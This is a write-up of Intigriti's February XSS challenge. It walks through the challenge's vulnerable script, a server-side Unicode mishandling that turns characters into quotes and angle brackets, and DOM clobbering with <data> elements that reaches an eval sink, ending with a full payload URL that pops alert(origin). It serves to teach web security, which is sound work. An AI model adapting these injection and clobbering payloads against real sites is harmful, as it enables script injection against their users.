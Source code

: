 # Intigriti's February XSS Challenge Writeup


This month’s challenge, made by [Holme](https://twitter.com/holme_sec), was a little bit different than the ones I have previously solved as it had a server-side processing issue.
<!--more-->

Vulnerable page - [https://challenge-0221.intigriti.io/](https://challenge-0221.intigriti.io/)\
Vulnerable script - [https://challenge-0221.intigriti.io/script.js](https://challenge-0221.intigriti.io/script.js)


### Issue 1 - Unicode characters improper processing

Digging into the [embedded script](https://challenge-0221.intigriti.io/script.js) (see the code below) we can see there is no direct source that could reach the only dangerous sink (`eval`) at line **57**:

```javascript
function startGrade() {
  var text = document.getElementById("assignmentText").value;
  checkLength(text);
  result = window.result || {
    message: "Your submission is too short.",
    error: 1,
  }; //If the result object hasn't been defined yet, the submission must be too short
  if (result.error) {
    endGrade();
  } else {
    getQAnswer();
    if (!passQuiz()) {
      result.message = "We don't allow robots at the Unicodeversity (yet)!";
      result.error = 1;
    } else {
      result.grade = "ABCDEF"[Math.floor(Math.random() * 6)]; //Don't tell the students we don't actually read their submissions
    }
    endGrade();
  }
}

function endGrade() {
  document.getElementById("message").innerText = result.message;
  if (result.grade) {
    document.getElementById(
      "grade"
    ).innerText = `You got a(n) ${result.grade}!`;
  }
  document.getElementById("share").style.visibility = "initial";
  document.getElementById(
    "share-link"
  ).href = `https://challenge-0221.intigriti.io/?assignmentTitle=${
    document.getElementById("assignmentTitle").value
  }&assignmentText=${document.getElementById("assignmentText").value}`;
  delete result;
}

function checkLength(text) {
  if (text.length > 50) {
    result = { message: "Thanks for your submission!" };
  }
}

function getQAnswer() {
  var answer = document.getElementById("answer").value;
  if (/^[0-9]+$/.test(answer)) {
    if (typeof result !== "undefined") {
      result.questionAnswer = { value: answer };
    } else {
      result = { questionAnswer: { value: answer } };
    }
  }
}

function passQuiz() {
  if (typeof result.questionAnswer !== "undefined") {
    return eval(result.questionAnswer.value + " == " + question);
  }
  return false;
}

var question = `${Math.floor(Math.random() * 10) + 1} + ${
  Math.floor(Math.random() * 10) + 1
}`;

document.getElementById("question").innerText = `${question} = ?`;

document.getElementById("submit").addEventListener("click", startGrade);

const urlParams = new URLSearchParams(location.search);
if (urlParams.has("autosubmit")) {
  startGrade();
}
```

It is a common behavior for web apps to reflect an input's name or id if provided via request body or query string, so does this app (escaping, unfortunately).
![Escaped reflected parameter](escapedrefparam.png "Escaped reflected parameter")

But if we try a Unicode sequence (`բարև`), we can see it doesn't get processed normally.
![Unicode reflected parameter](unicoderefparam.png "Unicode reflected parameter")

The first part of a Unicode character byte pair gets rendered and the second pair is getting reflected as is,
for example, in the case of letter `բ` (**U+0562**), **05** gets rendered and **62** is being returned.

### Issue 2 - DOM clobbering as a source to the dangerous sink

Now we can escape the reflection point with a doublequote using some character like `∀` (**U+2200**), but we cannot use event handlers because of **CSP** nor can construct an inline `script` element as we cannot guess a server-generated nonce value.
```CSP
script-src 'strict-dynamic' 'nonce-iR/JMMPv7suDLRND7rsPGvDzJxU=' 'unsafe-eval' http: https:;object-src 'none';base-uri 'none';
```

As said above, looking for DOM vulnerabilities, the only usable sink is `eval` (at line **56**  in the original script) in `passQuiz` function.
```Javascript
function passQuiz() {
  if (typeof result.questionAnswer !== "undefined") {
    return eval(result.questionAnswer.value + " == " + question);
  }
  return false;
}
```

And to reach it we should be able to control either `result.questionAnswer.value` or `question` variable.\
No source reaches `question`, but in line **4** we can see that result can be taken from the `window` object.
```Javascript
function startGrade() {
  var text = document.getElementById("assignmentText").value;
  checkLength(text);
  result = window.result || {
    message: "Your submission is too short.",
    error: 1,
```

So to set its value we should abuse [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering). And the rendered payload should look something like this
```html
<elem id="result">
<elem id="result" name="questionAnswer" value="alert(origin)//">
```

Looking through [MDN documentation](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes), the only usable element that has `value` attribute is `<data>` as only its first two letters (**da**) can be embedded as a hexadecimal value to start a tag normally instead of a gibberish.

Finally we can construct our payload `?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit`

- `∀` (**U+2200**) to render a doublequote (**"**),
- `㸀` (**U+3E00**) to render a greater than sign (**>**),
- `㳚` (**U+3CDA**) to render a less than sign (**<**) and reflect **DA** characters to start the `<data>` tag,
- and `autosubmit` query parameter to execute `startGrade` function without user interaction (line **71**).

Which should result in something like this being injected into the page
```html
"00>00<data id=result>00<data id=result name=questionAnswer value=alert(origin)//
```

![Pop the alert](alert.png "Pop the alert")

The final URL - [https://challenge-0221.intigriti.io/?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit](https://challenge-0221.intigriti.io/?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit)

